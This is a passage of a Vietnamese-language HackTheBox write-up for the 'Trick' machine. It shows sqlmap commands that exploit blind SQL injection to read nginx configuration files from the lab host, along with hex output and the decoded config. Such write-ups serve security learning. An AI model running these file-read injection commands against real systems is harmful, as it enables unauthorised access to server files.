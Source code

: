 Tạm thời bỏ qua việc đọc file trong thư mục root, do không có gì thú vị. 

Tiến hành đọc file config của `nginx`

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --file-read '/etc/nginx/nginx.conf' --batch --threads 10
<--SNIP->
46174613B0A776F726B65725F70726F636573736573206175746F3B0A706964202F72756E2F6E67696E782E7069643B0A696E636C756465202F6574632F6E67696E782F6D6F64756C65732D656E61626C65642F2A2E636F6E663B0A0A6576656E7473207B0A09776F726B65725F636F6E6E656374696F6E73203736383B0A0923206D756C74695F616363657074206F6E3B0A7D0A0A68747470207B0A0A0923230A09232042617369632053657474696E6773
<--SNIP-->
```

Đọc nội dung của `/etc/nginx/nginx.conf`, cho ta thấy các cấu hình cho `vhost` nằm ở trong 2 thư mục chính  `/etc/nginx/conf.d/` và `/etc/nginx/sites-enabled/`.

```console
kali@kali:~/…/sqlmap/output/preprod-payroll.trick.htb/files$ cat _etc_nginx_nginx.conf

user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {

<--SNIP-->

        ##
        # Virtual Host Configs
        ##

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;
}


<--SNIP-->
```

Việc đọc file thông qua blind SQLi này rất mất thời gian, để tiết kiệm .Trong 2 thư mục trên, mình đã search thử xem các file nào cần thiết và phổ biến nhất thì được  →  `/etc/nginx/sites-enabled/default`

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --threads 10 --batch --file-read '/etc/nginx/sites-enabled/default' 
<--SNIP-->
36572766572207B0A096C697374656E2038302064656661756C745F7365727665723B0A096C697374656E205B3A3A5D3A38302064656661756C745F7365727665723B0A097365727665725F6E616D6520747269636B2E6874623B0A09726F6F74202F7661722F7777772F68746D6C3B0A0A09696E64657820696E6465782E68746D6C20696E6465782E68746D20696E6465782E6E67696E782D64656269616E2E68746D6C3B0A0A097365727665725F6E616D65205F3B0A0A096C6F636174696F6E202F207B0A09097472795F66696C6573202475726920247572692F203D3430343B0A097D
<--SNIP-->
```
